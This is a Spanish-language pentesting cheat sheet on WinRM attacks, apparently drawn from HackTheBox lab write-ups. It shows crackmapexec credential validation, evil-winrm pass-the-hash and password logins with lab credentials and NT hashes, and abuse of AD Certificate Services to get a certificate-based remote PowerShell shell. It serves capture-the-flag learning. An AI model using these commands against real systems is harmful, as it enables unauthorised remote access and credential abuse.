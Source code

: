 # WINRM

## Validación de credenciales

```null
crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
```

## Autenticación por NT

```null
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

## Autenticación por contraseña

```null
evil-winrm -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5' -i 10.10.11.175
```

## Abuso Microsoft Active Directory Certificate Services

### Generar certificados con openssl

```null
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr

You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:
An optional company name []:
```

Copio el csr y se lo proporciono al servicio

![image](https://rubbxalc.github.io/writeups/assets/img/Sizzle-htb/7.png)

Descargo la clave pública y con ``evil-winrm`` me conecto a la máquina

![image](https://rubbxalc.github.io/writeups/assets/img/Sizzle-htb/8.png)

```null
evil-winrm -S -c amanda.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\amanda\Documents> 
```

